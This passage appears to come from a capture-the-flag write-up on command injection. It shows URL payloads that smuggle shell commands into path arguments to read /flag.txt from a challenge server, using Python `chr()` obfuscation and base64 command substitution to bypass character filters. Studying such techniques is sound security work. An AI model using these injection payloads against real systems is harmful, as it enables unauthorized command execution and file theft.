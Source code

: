 Decoded URL:

```
http://127.0.0.1:1337/-1/-Hpython -c 'print(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read())' #/man
```

Output:

![Python Payload Output](./python_payload_output.png)

Python code:

```python
print(open(chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read())
```

Equivalent Python code

```python
print(open("/flag.txt").read())
```

The use of the [chr](https://docs.python.org/3/library/functions.html#chr) function in Python is a common method to bypass character restrictions in Pyjails. In this case we are replacing the "/" character with `chr(47)`.

#### Base64

![Base64 Payload](./base64_payload.png)

```
{base_url}/;/--html="$(echo%20\'L2ZsYWcudHh0\'|base64%20-d)"/;/-l/;/app.py

http://challenges.oceaniacc.com:5001/;/--html=%22$(echo%20'L2ZsYWcudHh0'|base64%20-d)%22/;/-l/;/app.py
```

Decoded URL:

```
{base_url}/;/--html="$(echo 'L2ZsYWcudHh0'|base64 -d)"/;/-l/;/app.py
```

